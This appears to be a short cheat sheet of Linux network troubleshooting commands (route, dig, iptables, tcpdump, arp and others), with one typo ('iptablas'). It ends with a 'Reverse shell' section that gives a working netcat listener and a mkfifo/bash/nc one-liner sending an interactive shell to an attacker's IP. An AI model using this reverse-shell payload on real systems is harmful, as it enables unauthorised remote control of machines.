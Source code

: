 ## Utilities commands for troubleshooting a network

ping <server>

route -n
  show default gateway and other routes without resolving the DNS

route
  show default gateway and other routes trying to resolve the DNS

ifconfig
  information about the network adapters

dig
  same as nslookup but it shows in a format that is much easier to parse when working with scripts

dig <server> MX
  show MX records. Used to direct e-mail messages for the right destination.

iptables -L
  show all the rules current configured

iptables -A INPUT -p tcp --dport 21 -j DROP
  appends a firewall rule for incoming tcp connections on port 21 (ftp) to be dropped

iptables -L INPUT --line-numbers
  show all INPUT rules current configured and display it line number.

iptables -D INPUT 1
  deletes INPUT rule with line number 1.

iptablas -D INPUT -p tcp --dport 21 -j DROP
  same as above but delete the rule by the rule it self.

tcpdump -i <interface> -n
  show all the traffic coming in and out the interface. Option -n don't do the reverse dns lookup.

sudo dhclient
  obtains an ip from the dhcp server

sudo dhclient -r
  release the ip address

arp
  shows routing table (layer 2 mac address  <->  layer 3 ipv4 address)
  useful flags: -a (shows dns vs mac) -n (shows ip vs mac)

ip -6 neighbor|neigh show
  shows routing table (layer 2 mac addres <-> layer 3 ipv6 address)
  man page: man ip-neighbor


### Reverse shell

nc -lnvp <port_number> 
  attacker will listen for connections on port number

mkfifo /tmp/<file_to_be_used_as_pipe>
  creates a file that will be used as a pipe/socket for enabling the attacked system to offer a shell

cat /tmp/<file_created_above> | /bin/bash -i 2>&1 | nc <attacker-ip> <port-number> > /tmp/<file-created-above>
  connects to the attacker machine e offers a shell for the attacker to control the attacked machine


